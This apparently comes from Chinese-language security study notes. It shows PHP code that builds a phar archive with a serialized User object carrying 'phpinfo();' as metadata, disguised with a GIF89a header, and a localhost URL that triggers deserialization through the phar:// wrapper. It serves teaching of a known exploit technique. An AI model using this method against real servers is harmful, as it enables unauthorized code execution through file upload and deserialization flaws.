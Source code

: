 生成 phar 文件，写入恶意 payload

```php
<?php
class User{
    var $name;
}

$phar = new Phar("test01.phar");
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");  // 文件头添加GIF89a
$o = new User();
$o->name = "phpinfo();";
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

<img src="图片\Snipaste_2023-02-05_10-19-58.png" alt="Snipaste_2023-02-05_10-19-58" style="zoom:67%;" />

把 test01.phar 文件想办法上传到服务器web目录，再触发

```
http://127.0.0.1:8081/security/unserial/phar.php/?filename=phar://test01.phar/test.txt
```
